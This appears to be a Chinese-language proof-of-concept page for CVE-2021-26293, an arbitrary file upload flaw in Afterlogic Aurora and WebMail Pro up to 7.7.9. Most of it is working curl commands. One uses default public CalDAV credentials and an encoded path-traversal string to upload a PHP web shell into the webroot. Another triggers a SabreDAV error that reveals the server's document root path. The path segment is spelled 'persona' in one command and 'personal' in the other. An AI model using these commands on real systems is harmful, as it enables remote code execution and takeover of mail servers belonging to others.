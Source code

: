 # Afterlogic Aurora & WebMail Pro 文件上传漏洞（CVE-2021-26293）

该漏洞是由于Afterlogic Aurora & WebMail Pro中对上传的文件过滤和限制存在缺陷，攻击者可以通过上传恶意文件，从而执行任意代码。

影响版本：

* WebMail Pro ≤ 7.7.9
* Afterlogic Aurora ≤ 7.7.9

**PoC：**

```bash
curl -T shell.php -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/persona/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e/var/www/html/shell.php"
```

默认路径为/var/www/html，也可能更改配置为其它路径，可以尝试其它方式获取。


```bash
curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
//使用无效路径获取SabreDAV错误查看Webroot路径
```

ref：

* http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26293
* https://github.com/E3SEC/AfterLogic/blob/main/CVE-2021-26293-rce-via-public-unrestricted-file-upload-vulnerability.md
* https://forum.ywhack.com/thread-115325-1-8.html